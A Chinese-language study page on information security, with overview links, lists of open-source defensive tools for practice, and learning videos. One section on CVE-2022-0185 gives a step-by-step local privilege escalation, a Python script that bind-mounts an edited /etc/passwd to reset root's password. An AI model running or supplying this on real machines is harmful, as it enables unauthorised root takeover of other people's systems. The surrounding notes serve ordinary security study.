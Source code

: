 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
weight: 1
---
```


# 概述

> 参考：
>
> - [Wiki, Information_security](https://en.wikipedia.org/wiki/Information_security)

**Information security(信息安全，简称 infosec)** 是通过降低信息风险来保护信息的实践。

[Data secruity](https://en.wikipedia.org/wiki/Data_security)

[Network security](https://en.wikipedia.org/wiki/Network_security)

**Reverse engineering(逆向工程)** [Reverse engineering](docs/7.信息安全/Reverse%20engineering/Reverse%20engineering.md)

**Software cracking(软件破解)**

- [Wiki, Software cracking](https://en.wikipedia.org/wiki/Software_cracking)(软件破解)

**Penetration test(渗透测试)**

- [Wiki, Penetration test](https://en.wikipedia.org/wiki/Penetration_test)(渗透测试)

# 待总结

要研究态势感知或安全运营中心，可以采用 OSSIM

要研究入侵防御技术，可以采用 Snort 或 Security Onion

要研究防火墙技术，可以采用 pfSense 或 OPNsense

要研究 Web 应用防火墙（WAF ），可以采用 ModSecurity

要研究威胁情报技术，可以采用 MISP 或 OpenCTI

要研究漏洞扫描技术，可以采用 OpenVAS 或 W3AF

要研究堡垒机技术，可以采用 JumpServer

要研究蜜罐技术，可以采用 T-Pot 或 Hfish

# 学习

[B 站 - 沈奇教练，【黑客奇谈】第三期：0基础成为黑客有多难？15年网安经验倾囊相授，教你正确入门网络安全](https://www.bilibili.com/video/BV1abN4eiEQ8)

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)

# 渗透测试

> 参考：
> 
> - [Wiki, Penetration test](https://en.wikipedia.org/wiki/Penetration_test)(渗透测试)

BurpSuite

- [官网](https://portswigger.net/burp)

渗透测试的本质是信息收集